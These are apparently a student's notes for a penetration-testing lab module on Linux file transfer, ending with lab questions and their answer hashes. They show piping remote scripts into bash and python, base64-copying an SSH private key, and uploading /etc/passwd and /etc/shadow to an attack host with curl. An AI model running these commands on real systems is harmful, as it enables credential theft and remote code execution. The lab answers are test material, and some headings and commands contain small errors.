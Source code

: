 # Linux File Transfer Methods
## PowerShell Base64 Encode & Decode
If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content. We can use `md5sum` to calculate and verifie 128-bit MD5 checksums for integrity check.
1. **Check MD5Hash of file to transfer**
    ```
    $ md5sum id_rsa

    4e301756a07ded0a2dd6953abf015278  id_rsa
    ```
2. **Encode the file content to Base64**
    ```
    $ cat id_rsa |base64 -w 0;echo

    LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRU...
    ```
3. **Decode the copied file's content in Base64**
   ```
   $ echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRU...'  | base64 -d > id_rsa
   ```
4. **Confirm the MD5 Hashes Match**
   ```
   $ md5sum id_rsa

   4e301756a07ded0a2dd6953abf015278  id_rsa
   ```

## Web Downloads with Wget and cURL
**Download a File Using wget**

```
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

**Download a File Using cURL**

```
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Fileless Attacks Using Linux
**Fileless Download with cURL**

```
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

**Fileless Download with wget**

```
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Download with Bash (/dev/tcp)
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

**Connect to the Target Webserver**

```
$ exec 3<>/dev/tcp/10.10.10.32/80
```

**HTTP GET Request**

```
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Print the Response**

```
$ cat <&3
```

## SSH Downloads
SSH implementation comes with an `SCP` utility for remote file transfer that, by default, uses the SSH protocol.

`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

1. **Host - Enabling the SSH Server**
```
$ sudo systemctl enable ssh
```
2. **Host - Starting the SSH Server**
```
$ sudo systemctl start ssh
```
3. **Host - Checking for SSH Listening Port**
```
$ netstat -lnpt

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
```
4. **Target - Downloading Files Using SCP**
```
$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

## Web Upload
Config uploadserver module to use HTTPS for secure communication:
1. **Host - Start Web Server**
```
$ sudo python3 -m pip install --user uploadserver
```
2. **Host - Create a Self-Signed Certificate**
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
3. **Host - Start Web Server**
```
$ mkdir https && cd https
$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
4. **Target - Upload Multiple Files**
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Linux - Creating a Web Server with Python3
```
$ python3 -m http.server
```
### Linux - Creating a Web Server with Python2.7
```
$ python2.7 -m SimpleHTTPServer
```
### Linux - Creating a Web Server with PHP
```
$ php -S 0.0.0.0:8000
```
### Linux - Creating a Web Server with Ruby
```
$ ruby -run -ehttpd . -p8000
```

## SCP Upload
```
$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

## Questions
1. Download the file flag.txt from the web root using Python from the Pwnbox. Submit the contents of the file as your answer. **Answer: 5d21cf3da9c0ccb94f709e2559f3ea50**
   - `$ curl -o flag.txt http://10.129.42.154/flag.txt`
2. Upload the attached file named upload_nix.zip to the target using the method of your choice. Once uploaded, SSH to the box, extract the file, and run `hasher <extracted file>` from the command line. Submit the generated hash as your answer. **Answer: 159cfe5c65054bbadb2761cfa359c8b0**
   - At host, download the file named upload_nix.zip and use SCP to upload that file to the target `$ scp upload_nix.zip htb-student@<target_IP>:/home/htb-student`
   - At the target machine, unzip that file and calculate the hash: `$ gunzip -S .zip upload_nix.zip $$ hasher upload_nix`
3. Connect to the target machine via SSH and practice various file transfer operations (upload and download) with your attack host (workstation). Type "DONE" when finished. **Answer: DONE**